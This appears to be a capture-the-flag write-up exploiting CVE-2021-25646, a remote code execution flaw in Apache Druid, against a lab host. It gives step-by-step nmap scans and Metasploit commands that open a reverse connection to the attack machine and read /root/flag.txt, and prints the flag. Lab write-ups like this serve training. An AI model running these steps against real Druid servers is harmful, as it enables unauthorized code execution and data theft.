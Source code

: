 # Vulnerability Exploitation Report: CVE-2021-25646

## Vulnerability Overview
**CVE ID**: CVE-2021-25646  
**CVSS Score**: 9.0 (Critical)  
**Description**: Apache Druid, a high-performance analytics database, is vulnerable to remote code execution (RCE) due to insufficient input validation in its JavaScript ingestion feature. This flaw allows unauthenticated attackers to execute arbitrary code on the target server.

## Objective
Exploit the CVD-2021-25646 vulnerability on a target Apache Druid instance to gain unauthorized access and retrieve the `/root/flag.txt` file as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.6
- **Target Port**: 8888 (Apache Druid default port)
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the contents of `/root/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.6) to confirm the presence of Apache Druid.

```
nmap -sV 192.168.5.6
```

### Step 3: Verify Apache Druid Accessibility
Confirm the Apache Druid instance is accessible by sending an HTTP request to port 8888.

```
curl -L http://192.168.5.6:8888
```

### Step 4: Launch Metasploit
Start the Metasploit Framework to access exploit modules.

```
msfconsole
```

### Step 5: Search for Apache Druid Exploit
Search Metasploit for modules related to Apache Druid vulnerabilities.

```
search apache druid
```

### Step 6: Select Apache Druid RCE Module
Choose the Metasploit module for the Apache Druid JavaScript RCE vulnerability.

```
use exploit/linux/http/apache_druid_js_rce
```

### Step 7: Review Module Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 8: Configure the Target Host
Set the target host to the Apache Druid instance’s IP address.

```
set RHOSTS 192.168.5.6
```

### Step 9: Configure the Local Host
Set the local host IP for the reverse connection.

```
set LHOST 192.168.0.5
```

### Step 10: Execute the Exploit
Run the exploit to achieve remote code execution on the target system.

```
exploit
```

### Step 11: Retrieve the Flag
Read the contents of the `flag.txt` file in the `/root` directory.

```
cat /root/flag.txt
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: WVJlAl0uRKyflXWJ